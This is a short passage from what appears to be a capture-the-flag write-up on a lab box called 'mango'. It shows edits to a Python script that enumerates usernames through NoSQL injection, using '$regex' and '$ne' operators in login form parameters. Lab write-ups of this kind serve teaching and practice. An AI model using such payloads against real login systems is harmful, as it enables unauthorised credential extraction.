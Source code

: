 ![9](/assets/mango/9.png)

we see that '**m**' is the first letter. Now lets tweak the script another time. Will remove '**a**' from
line # 34 
```python
if chr(i) in ['.','?','*','^','+','&','|','a']:
```

and modify `data1` variable and add **'m'** as a value for `username=` parameters.

line # 25 should look like this 
```python
data1 = "username[$regex]=^m"+p1+"&password[$ne]=&login=login"
```
and the result is:

![10](/assets/mango/10.png)
